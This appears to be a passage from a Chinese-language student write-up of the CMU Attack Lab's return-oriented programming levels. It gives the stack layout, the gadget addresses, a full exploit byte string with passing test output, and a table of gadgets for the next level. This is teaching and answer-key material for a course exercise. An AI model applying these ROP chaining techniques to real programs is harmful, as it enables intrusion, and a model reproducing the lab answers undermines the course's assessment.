 发现字节序列 `48 89 c7 c3`，等价于以下两条指令：

```
movq %rax, %rdi
ret
```

函数 `getbuf` 的栈帧如下表所示：
| item | size | statements | address |
| --- | --- | --- | --- |
| touch2 address | 8B | gadget 2 的返回地址 | 0x5561dcb8 |
| gadget 2 code address | 8B | gadget 1 的返回地址 | 0x5561dcb0 |
| cookie | 8B | cookie 值 0x59b997fa | 0x5561dca8 |
| gadget 1 code address | 8B | getbuf 的返回地址 | 0x5561dca0 |
| Buffer | 40B | 缓冲区 | 0x5561dc78 |

其中 gadget 1 代码地址为：_0x4019cc_，gadget 2 代码地址为：_0x4019a2_。因此 Phase 5 的攻击字符串字节序列为：40 个任意字符+gadget 1 代码地址+cookie 值+gadget 2 代码地址+touch2 地址，一个可行的字节序列为：

```
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 cc 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 a2 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
```

通过 hex2raw 生成攻击字符串，并进行测试：

```
./hex2raw < rtarget.l2.txt > rop.attack.l2.txt
./rtarget -i rop.attack.l2.txt -q
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

#### Level 3

Phase 5 执行与 Phase 3 相同的攻击，区别在于使用 gadgets 代码在 RTARGET 程序上进行相同效果的攻击，但是会更加困难。

下表给出完成 Phase 5 **必要的** gadgets 代码作用、起始地址、来源函数名称：
| source function | gadget code | address |
| --- | --- | --- |
| addval_273 | movq %rax, %rdi | 0x4019a2 |
| addval_219 | popq %rax | 0x4019ab |
| getval_481 | movl %eax, %edx | 0x4019dd |
| addval_190 | movq %rsp, %rax | 0x401a06 |
| addval_436 | movl %ecx, %esi | 0x401a13 |
| getval_159 | movl %edx, %ecx | 0x401a34 |
